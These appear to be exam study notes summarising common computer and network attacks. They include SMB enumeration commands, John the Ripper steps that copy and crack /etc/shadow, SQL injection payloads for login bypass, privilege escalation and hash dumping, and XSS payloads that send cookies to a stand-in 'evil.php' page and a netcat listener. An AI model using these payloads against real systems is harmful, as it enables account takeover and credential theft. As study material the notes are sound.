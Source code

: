 # Common Attacks

## Exam Outcome

Demonstrate a broad knowledge of computer and network attacks

## Common Attacks

## 1. Recon

## 2. Scanning

### SMB Sessions

View SMB sessions (outbound)

```
net use
```

View SMB sessions (inbound):

```
net session
```

Establishing an SMB session:

```
net use \\%COMPUTERNAME% /u:[account]
```

Delete an SMB session:

```
net use \\%COMPUTERNAME% /del
```

Using the enum tool to pull user, password policy, and grup info:

```
enum -u [user] -p [password] -U [target IP]
enum -u [user] -p [password] -P [target IP]
enum -u [user] -p [password] -G [target IP]
```

### War Dialing

Dialing a sequence of telephone numbers attempting to locate a modem. Popular tool for doing so is HD Moore's WarVOX.

### War Driving

The act of performing wireless LAN discovery.

## 2.  Exploitation

Exploitation (per 504) is broken down into 3 sections:

Gaining Access
Web App Attacks
Denial of Service

## Exploitation - Gaining Access

### IP Address Spoofing

### Passive and Active Sniffing

### Session Hijacking with Ettercap

Session hijacking synthesizes sniffing and spoofing.

### DNS Cache Poisoning

### Buffer Overflows

Allows an attacker to execute arbitrary commands on your machine.

### Format String Attacks

Related to manipulating programs that misuse printf and related commands to read arbitrary information from memory.

### Password Cracking

#### Password Cracking Methodologies

1. Dictionary attack
2. Brute force attack
3. Hybrid

John the Ripper (on Linux):

```
cp /etc/passwd /tmp/passwd_copy
cp /etc/shadow /tmp/shadow_copy

unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined

/run/john /tmp/combined
```

John the Ripper (on Windows)

john-mmx.exe c:\path\to\sam.txt

### Pass-the-Hash Attacks

Instead of, or in addition to, stealing password hashes and cracking them, you can also use the pilfered hashes to directly attempt authentication from one box to another.

### Worms & Bots

Worms are designed to be self-propagating and are intended to quickly spread and infect other systems very quickly.
Worms come in different flavors:  multi-exploit, multi-platform, zero-day, flash technique induced, and polymorphic.

### Virtual Machine Attacks

## Exploitation - Web App Attacks

### Account Harvesting

The ability to discern valid userIDs based on how the application responds when the user tried to authenticate. After discerning the error messages, behaviors, and output, automation can be leveraged to quickly identify a list of valid userIDs.

### Command Injection

The manipulation of web application behavior that takes user input and executes it in the back end; bad guys can manipulate this to achieve code execution in certain instances.

### SQL Injection

SQL Injection is the most common web-based attack. It is used when the hacker places commands which can trigger valid SQL queries within a field not typically associated with SQL commands. Fields like "Username" and "Password". But these types of commands cab be inserted into any DB style entry field.

1. List Field Values #1:
An attacker may try the following to see if they can get a list of values from a particular field, user, pass, version, email, etc.

```
'0 OR 1=1'
```

Or:

```
' or '1'='1
```

Equivalent to the SQL Command:
'SELECT * FROM Users WHERE UserId = 0 OR 1=1;''

2. List Field Values #2:
An attacker may try the following to get a list of values from a particular field, user, pass, version, email, etc.
```
" or ""="
```

Equivalent to the SQL Command:
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""

3. Elevate privileges
```
"john'; INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'"
```

Equivalent to the SQL Command:
SELECT user_id, username, password_hash FROM users WHERE username = 'john'; 
INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'

4. Getting Hashesh

```
admin' union select password from users where username='admin';--
```

### XSS Attacks

1. Black Box Testing
Enter the following in the URL:

```
hxxp://www.site.com/index.php?name=<script>alert(123)</script>
```

2. Search Test
If the site has a search field without proper sanitization:

```
hxxp://www.site.com/search?source=“><script>alert(123)</script>
```

3. One Error Test
If the site has a mouseover or onerror capability

```
hxxp://www.site.com/index.php?name=<b onmouseover=alert('Wufff!')>click me!</b>
```
```
hxxp://www.site.com/index.php?name=<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

5. Assessing about:cache Entries (Firefox)

```
Type "about:cache" in the address bar
Click on 'List Cache Entries'
Analyze recent capture entries of attempted XSS entry points
```

4. Cookie Stealer

```
hxxp://www.site.com/index.php?name=<SCRIPT type="text/javascript"> var adr = '../evil.php?cakemonster=' + escape(document.cookie);</SCRIPT>
```

Another example using netcat (nc):

Start a nc listener:

```
nc -l -v -p 2222
```

Enter the following in the <script> tag:

```
<script>document.location='http://127.0.0.1:2222/grab.cgi?'+document.cookie;</script>
```

The cookie will be relayed to the netcat (nc) listener.

Using the stolen cookie to gain additional access with Nikto:

```
perl ./nikto.pl -Single
[Hostname or IP]: 127.0.0.1
[URL(/)]: /admind.php
[Data]: Cookie: user=1337
```

5. Hide from JavaScript
```
hxxp://www.site.com/index.php?name=<IMG SRC=j&#X41vascript:alert(123)>
```

### Attacking State Maintenance with Web App Manipulation Proxies

Great tools: ZAP, Burp, w3af, and Fiddler.

## Exploitation - Denial of Service

### Local DOS

### DNS Amplification Attacks

### DoS Suites

### Distributed DoS (DDoS)



